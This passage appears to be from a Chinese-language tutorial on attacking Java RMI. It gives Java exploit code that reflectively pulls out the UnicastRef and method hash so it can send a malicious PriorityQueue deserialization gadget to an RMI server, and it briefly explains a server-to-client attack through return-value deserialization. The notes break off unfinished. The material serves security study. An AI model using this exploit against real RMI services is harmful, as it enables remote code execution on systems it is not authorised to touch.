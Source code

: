 

我们控制下method的传值，手动调用`UnicastRef # invoke`就可以了。

```java
public class ServerExploit {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        IRemoteObj remoteObj = (IRemoteObj) registry.lookup("remoteObj");
        //System.out.println(remoteObj);
        //remoteObj.sayHello(getEvilPriorityQueue());
        invoke(remoteObj);
    }

    public static void invoke(IRemoteObj remoteObj) throws Exception {
        //要获得 ref.invoke的四个参数，还有ref
        Field hField = remoteObj.getClass().getSuperclass().getDeclaredField("h");
        //getClass是com.sun.proxy.$Proxy0， getSuperclass()才是java.lang.reflect.Proxy
        hField.setAccessible(true);
        Object remoteObjectInvocationHandler = hField.get(remoteObj);

        Field refField = remoteObjectInvocationHandler.getClass().getSuperclass().getDeclaredField("ref");
        refField.setAccessible(true);
        UnicastRef ref = (UnicastRef) refField.get(remoteObjectInvocationHandler);

        Method sayHello = IRemoteObj.class.getDeclaredMethod("sayHello", String.class);    //获取hash
        Method getMethodHash = remoteObjectInvocationHandler.getClass().getDeclaredMethod("getMethodHash", Method.class);
        getMethodHash.setAccessible(true);
        long hash = (long) getMethodHash.invoke(remoteObj, sayHello);

        ref.invoke(remoteObj, sayHello, new Object[]{getEvilPriorityQueue()},hash);

    }
```





## 服务端攻击客户端

客户端调用UnicastRef#invoke和服务端交互，如果调用的方法有返回值的会执行到程序会执行到`unmarshalValue(rtype, in);`，对方法的返回值进行反序列化，如果方法的返回值是Object则可以利用。

## DCG相关攻击

先写到这吧